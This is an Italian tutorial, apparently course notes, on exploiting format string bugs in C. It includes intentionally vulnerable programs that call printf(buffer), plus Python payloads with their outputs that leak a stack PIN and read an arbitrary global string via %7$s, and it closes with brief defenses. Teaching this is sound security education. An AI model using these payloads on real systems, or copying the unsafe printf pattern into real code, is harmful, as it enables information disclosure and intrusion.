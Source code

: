 Una **format string** è una stringa che contiene direttive riguardanti il suo formato, esse hanno un **numero variabile di argomenti** e sono controllate a **run-time**.
>Controllare una format string consente accesso arbitrario allo stack.

### Argomenti variabili
Una format string è analizzata e, ogni i-esima direttiva è mappata ad una i-esima funzione, `rdi` contiene la format string, mentre gli argomenti presumibilmente sono in: `rsi, rdx, rcx, r8, r9`, e successivamente nello stack.
```c
printf("%s%s%s%s%s%s","H","e","l","l","o"," World\n");
```
```bash
# registri
RCX: 0x555555554761 --> 0x732500480065006c ('l') # 4
RDX: 0x555555554763 --> 0x7325732500480065 ('e') # 3
RSI: 0x555555554765 --> 0x7325732573250048 ('H') # 2
RDI: 0x555555554767 ("%s%s%s%s%s%s") # 1
R8 : 0x555555554761 --> 0x732500480065006c ('l') # 5
R9 : 0x55555555475f --> 0x480065006c006f ('o') # 6
# stack
0000| 0x7fffffffe578 --> 0x5555555546a8 (...) # return address
0008| 0x7fffffffe580 --> 0x555555554774 ... (' World\n') # 7
```

Con **pochi argomenti**:
```c
printf("%s %s", s1) // rdi = "%s %s", rsi = s1, rdx = ?
printf("%s", s1, s2) // rdi = "%s", rsi = s1, rdx = s2
```

- Nel primo caso viene preso ciò che è presente in `rdx`, e viene deferenziato, se non è un indirizzo valido allora avviene un `segfault`
- Nel secondo caso `s1` viene stampato e `s2` viene ignorato

Se l'attaccante ha accesso alla format string allora si può accedere ai registri ed ai contenuti dello stack:
```c
#include <stdio.h>
int main() {
	char buffer[128];
	char PIN[128] = "1337";
	printf("What is your name? ");
	fflush(stdout);
	fgets(buffer, sizeof(buffer), stdin);
	printf("Hello ");
	printf(buffer);
}
```

$$\text{\%}\underbrace{\text{016}}_\text{16 caratteri in stdout}\space\underbrace{\text{l}}_\text{long integer}\space\underbrace{\text{x}}_\text{formato esadecimale}$$

```bash
python -c 'print("AAAAAAAA" + " 016lx"*8)' | ./vulnerablePIN
What is your name? Hello AAAAAAAA 000000006c6c6548 0000000000000000 0000000000000000 00007f01e11d94c0 0000000000000000 4141414141414141 20786c3631302520 2520786c36313025
```
In ordine di apparizione abbiamo: `rsi, rdx, rcx, r8, r9` e poi valori dello stack.

Supponendo che il `PIN` sia allocato nello stack subito `buffer` possiamo fare le seguenti considerazioni:
- `buffer` ha $128$ bytes, ovvero $16$ long-words da $8$ byte ciascuna
- `buffer` è allocato nel sesto argomento
- Abbiamo bisogno di $16+6=22$ `%016lx` per raggiungere la prima word del `PIN`
- $22*6=132>128$, il payload non ci sta

Sostituiamo `%016lx` con `%lx`, ora il payload ci sta dentro al buffer: $22*3=66$, sta anche con il carattere di spazio, per cui possiamo renderlo più leggibile:
```bash
python -c 'print(" %lx"*22)' | ./vulnerablePIN
What is your name? Hello  6c6c6548 0 0 7f63cdf844c0 0 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 a 0 0 ffffffff 0 37333331
```

Abbiamo trovato $37333331$, il quale tradotto in stringa ha valore $7331$, ma tenendo conto del formato _little endian_, otteniamo $1337$.

### Accesso diretto
Le format strings possono accedere direttamente agli argomenti, rendendo possibile eseguire il dump di ogni posizione dello stack indipendentemente dalla grandezza del `buffer`.

Usiamo `%6$016lx` per accedere al sesto argomento della `printf()`, il quale rappresenta il settimo parametro della `printf()`, ovvero il primo nello stack subito dopo l'indirizzo di ritorno.
```bash
python -c 'print("%22$16lx")' | ./vulnerablePIN
What is your name? Hello         37333331
```

### Leak di posizioni arbitrarie
Con l'accesso diretto possiamo vedere il contenuto di indirizzi arbitrari, l'idea è la seguente:
- Iniettare un indirizzo target nel `buffer` e fare in modo che esso corrisponda all'argomento in posizione `$%x$`, dove `x` lo devo trovare (solitamente si parte cercando da `x=6` in poi)
- Usare `%x$s` il quale de-referenzia e stampa tutto quello che c'è in quel indirizzo

```c
#include <stdio.h>
char supersecret[] = "This is a supersecret string!";

int main() {
	char buffer[128];
	char PIN[128] = "1337";
	printf("What is your name? ");
	fflush(stdout);
	fgets(buffer, sizeof(buffer), stdin);
	printf("Hello ");
	printf(buffer);
}
```
>La randomizzazione degli indirizzi è disattivata.

1. Per capire se il programma possiede vulnerabilità di format strings si prova ad inserire una format string:
```bash
./vulnerableSupersecret
What is your name? %08x
Hello 00000000
```

2. Inseriamo una stringa con tante direttive per capire dove è posizionato il buffer:
```bash
 python -c 'print("AAAAAAAA" + " %16lx"*20)' | ./vulnerableSupersecret
What is your name? Hello AAAAAAAA 0000000000000000 00000000006bbd50 0000000000000000 0000000001738880 0000000000000006 4141414141414141 20786c3631302520 2520786c36313025 302520786c363130 31302520786c3631 3631302520786c36 6c3631302520786c 786c363130252078 20786c3631302520 2520786c36313025 302520786c363130 31302520786c3631
```

notiamo che il buffer è in posizione $6$, per conferma stampiamo solo quello:
```bash
python -c 'print("AAAAAAAA" + " %6$16lx")' | ./vulnerableSupersecret
What is your name? Hello AAAAAAAA 4141414141414141
```

ora sappiamo che che stampando `%6$16lx` otteniamo la stringa passata inizialmente.

3. Troviamo l'indirizzo di `supersecret`:
```bash
objdump -D ./vulnerableSupersecret | grep supersecret
00000000006b90f0 <supersecret>:
```

4. Stampiamo la stringa "nascosta":
```bash
python -c 'print("%7$16lx.\xf0\x90\x6b\x00\x00\x00\x00\x00")' | ./vulnerableSupersecret
What is your name? Hello 000000006b90f020 �k
```

l'indirizzo è corretto, bisogna solo de-referenziarlo come stringa, mantenendo sempre lo stesso numero di caratteri che abbiamo usato, quindi ora andremo ad usare `%7$s` (abbiamo rovesciato la stringa stampata) ed in compenso aggiungiamo dei caratteri che occupano il posto di `6lx` per preservare gli $8$ byte, ovvero `...`:
```bash
python -c 'print "%7$s....\xf0\x90\x6b\x00\x00\x00\x00\x00"' | ./vulnerableSupersecret
What is your name? Hello This is a supersecret string!....�k
```

### Difese
I compilatori moderni segnalano con dei _warning_ se il numero di direttive non corrisponde con il numero di stringhe stampate (e.g. `printf(s)`), comunque gli attacchi sono possibili nel caso in cui la direttiva del formato `f` può essere controllata dall'attaccante, con `printf(f, s)` ad esempio non ci sono _warning_.
